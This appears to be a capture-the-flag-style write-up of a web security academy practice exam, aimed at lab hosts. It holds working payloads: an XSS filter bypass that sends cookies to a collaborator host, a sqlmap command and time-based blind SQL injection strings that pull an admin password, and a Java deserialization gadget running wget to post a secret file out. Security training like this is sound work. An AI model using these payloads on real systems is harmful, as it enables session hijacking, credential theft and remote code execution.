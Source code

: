 # Foothold

Active Scan => DOM-XSS => "-alert(1)-"

![image](https://user-images.githubusercontent.com/40497633/233626048-0866c789-cc7c-4278-ae84-721bbfa8ef41.png)


dots are blocked => first bypass to get cookie => alert(document['cookie'])


![image](https://user-images.githubusercontent.com/40497633/233626299-da46ddec-1288-49fe-a557-3380039229c0.png)

Cannot exfiltrate data as dots are needed for the burp collab domain so we have to use atob to use it as base64.

![image](https://user-images.githubusercontent.com/40497633/233626763-d3d2cd7d-1359-4f72-8ba5-f295416ce4c0.png)


Exploit:
"-eval(atob('[base64 encoded payload]'))-"

base64 payload:
fetch('https://your.burp.oastify.com?cookie='+document.cookie)
![image](https://user-images.githubusercontent.com/40497633/233627758-d03b4789-a4b6-4df0-a91e-d4fde369023a.png)

Exploit server:
<script>
    document.location="https://LAB-ID.h1-web-security-academy.net/?SearchTerm=%22-eval(atob(%27[base64 encoded payload]%27))-%22czichiz"
</script>

![image](https://user-images.githubusercontent.com/40497633/233628564-3c1729fa-30c9-41d2-9edd-89d1cbcf82a9.png)

Carlos account takeover!

![image](https://user-images.githubusercontent.com/40497633/233628748-0e921ccd-22d8-4042-a212-9b277b44de73.png)


# Privesc

Active scan on new advanced search feature only accessible with user account => PostgreSQL injection on param sort-by

PostgreSQL: PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit 

Automatic with sqlmap:

sqlmap.py -u "https://LAB-ID.h1-web-security-academy.net:443/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --cookie="_lab=48%7cMC4CFQCUigHc10K7RPnpgqQELxmnJC1XtAIVAIjxga6lfvULTXA5Pbqay2che1mf23VpCwRs7bp8k0P0WAnCIJh1MEhnSS%2b7xWrrVBgesSt08Mm7GHU6AMaFuhNMV79n6urUwKDt%2bvAmBTwIDGNzN3EcnM5lqarXKPo0JzTNR0i9BdZIvvAYXA%3d%3d; session=97xXNPN8LvO14nMh3tQLARSy47O67rgV" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36" --referer="https://0ad500100381b261800cf872003800f1.h1-web-security-academy.net/filtered_search?SearchTerm=test&sort-by=DATE&writer=" --delay=0 --timeout=30 --retries=0 -p "sort-by" --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --current-user

sqlmap find boolean-based SQLi

manual:
Detection with time-based blind SQLi:
sort-by=DATE;SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END--

![image](https://user-images.githubusercontent.com/40497633/233630036-b0f18f22-36d5-4e93-9d38-d8a63658da5e.png)


Find password lenght:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$20$)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233630972-9d0c611e-6f37-458f-8fdc-ba2e5233c144.png)


20 cars

Find password:
sort-by=DATE;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$1$,1)='$a$')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

![image](https://user-images.githubusercontent.com/40497633/233631386-ddf5a1da-c494-4942-a58d-5c53c868aa30.png)
![image](https://user-images.githubusercontent.com/40497633/233631517-fbbc06d0-1dc7-4886-ae9f-89347e25d57f.png)
![image](https://user-images.githubusercontent.com/40497633/233631598-4bd414ff-a32f-493d-b288-bebf8050dd6c.png)

![image](https://user-images.githubusercontent.com/40497633/233632259-3a0fcab8-dced-4286-bfe1-641aeeb223b5.png)

1234567891011121314151617181920 </br>
b9v9whchew y p e w t l 1 y g v

creds admin: </br>
login: administrator </br>
password: b9v9whchewypewtl1ygv </br>

Administrator account takeover!

![image](https://user-images.githubusercontent.com/40497633/233632577-10e78dca-ac22-4393-88e2-4b3161f3841c.png)


# Data exfiltration

New feature => admin panel => delete users => list of blogs with title/author/views

checklist:

- SQLi => possible - (no interactions on admin panel so only possibility in headers)
- XXE => not possible cause no interactions on admin panel
- SSRF => possible only in headers
- OS injection => possible only on headers
- Deserial => possible + (Cookie look java serialized)
- File upload => not possible (no file upload feature)

View-source => clean 

exfiltration:

Insecure deserialization of admin-prefs cookie

H4sIAAAAAAAA%2fzWPPU7DQBCFF0RSQcMJpkOi2PTQEH4iCkcKClJEOV6Pk8HrHbO7dmKQOA4VJ%2bAI3IU7sBahm%2fn09PS9zx81Cl6dW8w1msjigjZS1%2bJ0IM9o%2bRVzS3pa1OwWnsrw9vUxDqvv7FAdZeq4xE48R5qJFFGdZs%2fY4cSiW0%2bW0bNbX2bq5D%2fz0EqkF%2fWuDvawHei1SLWHo7ih%2bi%2bxa6Iab5kc%2baiu5j04rAk4wA16KwHm4qL0qOFJWqjYWiqg7qHEVOE1JNMGPUEUKJh0VIvHDcGKcpg2jWWDw1K4R1ORPwvpcEWePC7gloORjgZ1SBDudo0VjsO7JDMI9zCzuA1JT3zaSb9PDWuHQgEAAA%3d%3d

extension Java deserialisation scanner => exploitation 

![image](https://user-images.githubusercontent.com/40497633/233633030-60e1c7bd-e027-457a-8f42-b6dabbf77025.png)


Compress using gzip + Encode using Base64 + Encode using URL encoding

Payload: CommonsCollections7 'wget https://your.burp.oastify.com --post-file=/home/carlos/secret'

![image](https://user-images.githubusercontent.com/40497633/233633752-42f9ab49-33e5-402b-ba27-992a27f24541.png)

Received request data => solution-NMN8OGrvOL0ehJ5wqoNWIGTWPwaTZZ8Z

![image](https://user-images.githubusercontent.com/40497633/233633925-7d79152e-d7c9-4f32-a3c7-8350140b6158.png)


/!\ Configure the path to the ysoserial.jar file in the extension config and use another version of ysoserial if that doesn't work.

Practical Exam Completed !

![image](https://user-images.githubusercontent.com/40497633/233634102-07d01a1c-a211-4af8-9a77-bf7a8572774e.png)

